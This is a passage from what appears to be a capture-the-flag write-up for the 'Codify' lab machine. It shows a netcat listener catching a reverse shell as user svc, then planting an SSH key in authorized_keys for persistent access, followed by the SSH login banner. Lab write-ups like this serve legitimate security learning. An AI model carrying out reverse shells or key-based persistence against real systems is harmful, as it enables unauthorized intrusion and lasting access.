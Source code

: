 ```js
console.log(vm.run(code));
```

I started a netcat listener and posted the code above.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.95] from (UNKNOWN) [10.129.29.164] 41936
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
```

## User joshua

Once connected to the server, I copied my private key and reconnected with SSH.

```bash
svc@codify:~$ mkdir .ssh
mkdir .ssh

svc@codify:~$ echo -n "ssh-rsa AAAAB3NzaC1 ... " >.ssh/authorized_keys
echo -n "ssh-rsa AAAAB3NzaC1 ... " >.ssh/authorized_keys

svc@codify:~$ chmod 700 .ssh
chmod 700 .ssh

svc@codify:~$ chmod 600 .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

I looked for easy escalation paths.

```bash
$ ssh svc@target
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan 28 04:59:34 PM UTC 2024

  System load:                      0.03076171875
  Usage of /:                       64.5% of 6.50GB
  Memory usage:                     22%
  Swap usage:                       0%
  Processes:                        235
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.29.164
  IPv6 address for eth0:            dead:beef::250:56ff:feb0:53a7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```